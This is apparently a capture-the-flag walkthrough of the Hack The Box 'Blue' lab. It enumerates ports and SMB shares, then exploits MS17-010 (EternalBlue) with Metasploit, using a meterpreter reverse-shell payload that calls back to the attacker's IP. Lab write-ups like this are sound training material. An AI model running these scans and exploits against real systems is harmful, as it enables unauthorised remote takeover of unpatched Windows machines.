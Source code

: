 ## Blue

### Lab Details 

- Difficulty: Easy
- Type: SMB, Windows

#### Tasks
Q1: How many open TCP ports are listening on Blue? Don't include any 5-digit ports.
- run nmap `nmap -sT -T4 -vv -A -p- -oA Blue 10.10.10.40`  
- 3 ports
```
<snip>
PORT      STATE    SERVICE       REASON      VERSION
135/tcp   open     msrpc         syn-ack     Microsoft Windows RPC
139/tcp   open     netbios-ssn   syn-ack     Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds  syn-ack     Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
<snip>
```

Q2: What is the hostname of Blue?
- as part of output from nmap 
```
<snip>
Host script results:
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
<snip>
``` 

Q3: What operating system is running on the target machine? Give a two-word answer with a name and high-level version.
- as part of output from nmap
```
<snip>
 |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
<snip>
```

Q4: How many SMB shares are available on Blue?
- enum SMB share using `smbclient`
```
$: smbclient -L 10.10.10.40
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Share           Disk
        Users           Disk
```

Q5: What 2017 Microsoft Security Bulletin number describes a remote code execution vulnerability in SMB?
- search for the exploit by using `searchsploit`
```
$: searchsploit smb
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
<snip>
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                                                          | windows/remote/42031.py
<snip>
```
 

Q6: Optional question: A worm was set loose on the internet in May 2017 propagating primarily through MS17-010. What is the famous name for that malware?
- searching `worm ms17-010` on return a wiki page on EternalBlue and it mentions a worm called WannaCry

Q7: What user do you get execution with when exploiting MS17-010? Include the full name, including anything before a .
- exploit the vulnerability using msfconsole (windows/smb/ms17_010_eternalblue) module
- example below
```
msf6 > search blue

Matching Modules
================
<snip>
   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
   13  exploit/windows/smb/ms17_010_eternalblue                    2017-03-14       average    Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   14  exploit/windows/smb/ms17_010_psexec                         2017-03-14       normal     Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
<snip>
msf6 > use 13
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target m
                                             achines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machi
                                             nes.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.161    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.10.40
rhost => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.14.27
lhost => 10.10.14.27
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```


Q8: Submit the flag located on the haris user's desktop. 
- after running the exploit will give us a shell as NT authority\System (highest access on target)
- user.txt is locate at C:\Users\haris\Desktop\user.txt
- use `type` to display content

Q9: Submit the flag located on the administrator's desktop.
- root.txt is located at C:\Users\administrator\Desktop\root.txt

#### Lesson Learned
